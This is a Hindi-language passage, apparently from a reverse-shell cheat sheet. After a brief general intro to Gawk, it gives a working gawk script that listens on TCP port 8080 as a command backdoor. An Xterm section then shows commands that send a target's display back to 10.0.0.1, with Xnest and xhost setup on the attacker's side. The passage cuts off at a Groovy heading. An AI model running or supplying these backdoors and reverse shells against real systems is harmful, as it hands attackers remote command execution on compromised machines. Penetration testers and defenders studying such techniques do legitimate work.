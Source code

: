 Gawk एक शेल स्क्रिप्टिंग और पैटर्न मैचिंग भाषा है जो लिनक्स पर उपयोग होती है। यह एक शक्तिशाली टूल है जो टेक्स्ट फ़ाइलों को पाठने, संपादित करने और प्रसंस्करण करने की क्षमता प्रदान करता है। Gawk का उपयोग डेटा मानियों को व्यवस्थित करने, फ़ाइलों को फ़ॉर्मेट करने, और रिपोर्ट बनाने के लिए किया जा सकता है।

Gawk के बहुत सारे उपयोग हो सकते हैं, जैसे कि डेटा मानियों को फ़िल्टर करना, डेटा को ट्रांसफ़ॉर्म करना, और डेटा को संकलित करना। यह एक विशेष भाषा है जिसमें आप पैटर्न मैचिंग, वेरिएबल्स, और फ़ंक्शन्स का उपयोग करके टेक्स्ट फ़ाइलों को प्रोसेस कर सकते हैं।

Gawk का उपयोग करके, आप टेक्स्ट फ़ाइलों को लाइन द्वारा पढ़ सकते हैं, लाइनों को फ़िल्टर कर सकते हैं, और लाइनों को ट्रांसफ़ॉर्म कर सकते हैं। आप इसे अन्य शेल स्क्रिप्टिंग भाषाओं के साथ भी उपयोग कर सकते हैं, जैसे कि बैश और पावरशेल।

Gawk का उपयोग करने के लिए, आपको इसे अपने लिनक्स सिस्टम पर स्थापित करना होगा। आप गॉक को टर्मिनल में चला सकते हैं और टेक्स्ट फ़ाइलों को प्रोसेस करने के लिए गॉक स्क्रिप्ट बना सकते हैं। गॉक स्क्रिप्ट को चलाने के लिए, आपको टर्मिनल में `gawk -f script.awk file.txt` टाइप करना होगा, जहां `script.awk` आपका गॉक स्क्रिप्ट फ़ाइल है और `file.txt` आपकी इनपुट फ़ाइल है।
```bash
#!/usr/bin/gawk -f

BEGIN {
Port    =       8080
Prompt  =       "bkd> "

Service = "/inet/tcp/" Port "/0/0"
while (1) {
do {
printf Prompt |& Service
Service |& getline cmd
if (cmd) {
while ((cmd |& getline) > 0)
print $0 |& Service
close(cmd)
}
} while (cmd != "exit")
close(Service)
}
}
```
## Xterm

एक सरल प्रकार का रिवर्स शेल एक्सटर्म सेशन है। निम्नलिखित कमांड सर्वर पर चलाई जानी चाहिए। यह आपके पास वापस कनेक्ट होने की कोशिश करेगा (10.0.0.1) TCP पोर्ट 6001 पर।
```bash
xterm -display 10.0.0.1:1
```
आने वाले xterm को पकड़ने के लिए, एक X-Server शुरू करें (:1 - जो TCP पोर्ट 6001 पर सुनता है)। इसे करने का एक तरीका Xnest के साथ है (जो आपके सिस्टम पर चलाया जाएगा):
```bash
Xnest :1
```
आपको लक्ष्य को आपसे कनेक्ट करने के लिए अधिकृत करने की आवश्यकता होगी (यह आपके होस्ट पर भी चलाया जाने वाला कमांड है):
```bash
xhost +targetip
```
## ग्रूवी
